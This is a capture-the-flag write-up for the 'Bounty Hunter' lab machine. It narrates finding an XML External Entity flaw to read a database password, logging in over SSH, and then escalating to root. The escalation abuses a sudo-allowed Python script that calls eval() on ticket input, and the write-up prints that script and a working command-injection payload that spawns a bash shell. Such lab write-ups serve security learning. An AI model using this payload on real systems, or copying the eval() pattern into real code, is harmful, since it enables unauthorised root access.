








# Bounty Hunter Writeup

### objetives
* user flag
* root flag

---

## Basic Enumeration

### network

the ICMP TTL indicates that it's a Linux Machine  


the machines has just two open ports  




### web

there is a pretty interesting file at */resources/README.txt* that we download  


we find */portal.php* that leads us to */log_submit.php*  
  

here we can see that the input we type in the checkboxes is being displayed on the page  
after some investigation, we confirm that our input is being sent in a **POST** request to */tracker_diRbPr00f314.php*  
but the data is not in plain text, but is base64+URLEncode  
when you uncode the text, you see that the data is our input in XML format  
is this vulnerable to **XML External Entity ??** lets try it !!  
  
  
ok, it works, we got an **XML External Entity** vulnerability !!

---

## User flag 

### exploiting XML External Entity

lets see if theres something interesting at *portal.php*  
  
nothing !

now i remember...when we first did directory enumeration with **gobuster dir** there was a file called *db.php*  
lets try to read it  
 
we got a password !!!  

we saw in */etc/passwd* that there was an user called "development"  
we try to login by ssh with the password from *db.php* and... it works !!  
we get our **user flag**

---

## Root Flag

as soon as we get in, we see a file called *contract.txt* in our home directory with the following content
  
what tool is he talking about ?  
with `sudo -l` we find this :  
```bash
User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

we check the python script  
this script takes an *.md* file and checks if the syntax follows the guidelines of a "Valid Ticket"  
this is the most important part :
```python
def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False
```

as we can see, it is using the `eval()` function  
we find a ticket on the system that is "invalid"
```bash
# Skytrain Inc
## Ticket to Essex
__ticket code:__
**11+321+1**
##Issued: 2021/05/12
#End Ticket
```

if we change it this way the ticket is valid
```bash
# Skytrain Inc
## Ticket to Essex
__Ticket Code:__
**11+321+1**
##Issued: 2021/05/12
#End Ticket
```

the thing about this script is that it uses **eval()** on the 4th line(after removing the ** symbols)  
but to be able to get to the point where it uses the **eval()** function, the line has to start with `**11+`  
how do we acomplish this ?  

well, after trying a couple different payloads, i was able to make it work with this :
```bash
# Skytrain Inc
## Ticket to Essex
__Ticket Code:__
**11+321==__import__('os').system('/bin/bash')**
##Issued: 2021/05/12
#End Ticket
```

now we have a shell as Root and we can retrieve the last flag of the machine !!!

---

## Conclusions

i definitely had a lot of fun with this machine  
the first flag was fairly easy for me because the XML External Entity vulnerability was one of the first ideas i had when i saw the input being transformed into XML and was more about finding the right payload, even though i can understand that some people could fall into a rabbit hole trying to find some attack vector on the *portal.php* page  
the privilege scalation is totally obvious that the vulnerability is on the python script and that can take away some headaches while trying to investigate what's going on, but it can take you a while understanding how to crack it  


